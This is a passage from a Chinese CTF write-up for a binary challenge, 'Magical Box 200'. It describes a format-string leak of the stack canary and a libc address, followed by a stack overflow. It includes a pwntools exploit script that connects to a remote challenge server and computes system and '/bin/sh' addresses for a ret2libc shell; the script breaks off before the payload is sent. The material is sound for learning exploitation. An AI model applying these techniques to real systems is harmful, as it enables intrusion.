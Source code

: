 得到536 724 689

所以 flag{root@mail:0IdWan9}

**Magical Box 200**

首先看了下防护机制

[![](./img/85901/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01e75c363b591c5fa2.png)

然后在IDA中可以看到一个相当明显的格式化字符串漏洞 

[![](./img/85901/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01dc8132f14082b0f5.png)

got表无法修改，但是在栈空间中可以找到canary的值，以及___libc _ start _main函数地址

[![](./img/85901/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t011ff23047ccd54b56.png)

同时对输入的用户名进行了一步异或操作后进行验证

[![](./img/85901/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01ba7f640f49e9d8ac.png)

[![](./img/85901/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01ec57f92722a1d634.png)

已经已知了s2，动态调试出了用户名为admin2017c，继续跟下去后发现一个栈溢出漏洞

[![](./img/85901/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01e57a7e085c5967de.png)

写完EXP后本地能过远程过不了，猜测是__lib_start_main函数的本地偏移与远程不同采取爆破的办法出了flag

[![](./img/85901/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0199f25c5d781abc71.png)

附上exp

```
python
from pwn import *
#context(log_level="debug")
#p = process("./pwn_box")
#libc = ELF('libc.so.6')
libc = ELF('libc.so.6_pwnbox')
elf = ELF('pwn_box')
puts_got = 0x0804b030
printf_got = 0x0804b010
def launch_gdb():
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
gdb.attach(proc.pidof(p)[0],"b *0x08048A11nc")
#launch_gdb()
for x in range(240,0xff):
    try:
        print x
        p = remote('117.34.80.134',7777)
        #p = remote('127.0.0.1',10001)
        p.recvuntil("?n")
        p.sendline("%7$x")
        p.recvuntil("!")
        canary = int('0x'+p.recv(8),16)
        #print hex(canary)
        p.recvuntil("?n")
        p.sendline("%43$x")
        p.recvuntil("!")
        libc_start_main_addr = int('0x'+p.recv(8),16)-x
        #print hex(libc_start_main_addr)
        plt =  libc.symbols['__libc_start_main']
        system_addr = libc_start_main_addr- (plt - libc.symbols['system'])
        binsh_addr = libc_start_main_addr- (plt - next(libc.search('/bin/sh')))
        #print hex(system_addr)
        #print hex(binsh_addr)
        p.recvuntil("?n")
        p.sendline("admin2017c")
        p.recvuntil(".nn")
```